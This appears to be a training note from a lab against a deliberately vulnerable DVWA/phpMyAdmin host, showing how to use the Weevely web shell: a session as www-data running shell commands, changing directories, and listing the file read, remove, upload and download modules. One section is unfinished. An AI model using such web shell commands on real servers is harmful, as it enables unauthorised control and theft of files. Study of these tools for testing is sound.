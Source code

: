 # 02 - Basic Commands

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## Execute

Using `:shell_sh` to execute commands

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh -h
The remote script execution triggers an error 500, check script and payload integrity
usage: shell_sh [-h] [-stderr_redirection STDERR_REDIRECTION] [-vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}]
                command [command ...]

Execute shell commands.

positional arguments:
  command               Shell command

optional arguments:
  -h, --help            show this help message and exit
  -stderr_redirection STDERR_REDIRECTION
  -vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh ls
The remote script execution triggers an error 500, check script and payload integrity
CREDITS
ChangeLog
Documentation.html
Documentation.txt
INSTALL
LICENSE
..[snip]..
user_password.php
view_create.php
webapp.php
```

## Navigation

Using `:file_cd` to navigate the files

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ file_cd ../dvwa/vulnerabilities
The remote script execution triggers an error 500, check script and payload integrity
```

## File Manipulation

TODO: Fill this info

```
www-data@172.28.128.8:/var/www/phpMyAdmin $
```

:file_read                    Read remote file from the remote filesystem.
:file_cp                      Copy single file.
:file_rm                      Remove remote file.
:file_edit                    Edit remote file on a local editor.

## Upload and Download

```
:file_upload                  Upload file to remote filesystem.
:file_upload2web              Upload file automatically to a web folder and get corresponding URL.
```

```
:file_download                Download file from remote filesystem.
:file_webdownload             Download an URL.
```